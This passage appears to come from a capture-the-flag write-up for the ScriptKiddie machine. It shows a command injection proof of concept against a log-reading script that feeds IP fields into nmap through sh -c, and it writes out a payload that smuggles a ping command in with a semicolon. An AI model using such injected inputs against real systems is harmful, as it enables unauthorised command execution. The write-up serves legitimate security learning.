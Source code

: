 So it’s clear that script is running.

### Command Injection

#### POC

The script is also injectable. Each line of the log is going to go into `cut` to select the third and beyond objects (`-f3-`) when separated by space (`-d' '`). Then it will `sort -u` to remove duplicates. This isolates the IP:

```

kid@scriptkiddie:~/logs$ echo "[2021-05-28 12:37:32.655374] 10.10.14.15" | cut -d' ' -f3-
10.10.14.15

```

Then for each IP, it will run:

```

sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" &

```

So if I can put more than just an IP into the file where the IP should be, I can inject commands. For example, I’ll use a payload like

```

kid@scriptkiddie:~/logs$ echo "x x x 127.0.0.1; ping -c 1 10.10.14.15 #" | cut -d' ' -f3- 
x 127.0.0.1; ping -c 1 10.10.14.15 #

```

The first two `x` are just cut out, so that payload starts after that. The next `x` is the name of the file in `/recon`. Then I put a 127.0.0.1 so it would have something to scan. Then there’s a `;` to start a new command, which I’ll start with `ping`. Then a `#` to comment out the rest of the line. That would make:

```

sh -c "nmap --top-ports 10 -oN recon/x 127.0.0.1; ping -c 1 10.10.14.15 #.nmap x 127.0.0.1; ping -c 1 10.10.14.15 # 2>&1 >/dev/null" &

```

With syntax highlighting on the part inside `sh -c ""`:

```

nmap --top-ports 10 -oN recon/x 127.0.0.1; ping -c 1 10.10.14.15 #.nmap x 127.0.0.1; ping -c 1 10.10.14.15 # 2>&1 >/dev/null

```

It’s clearly going to `nmap` and then `ping`.
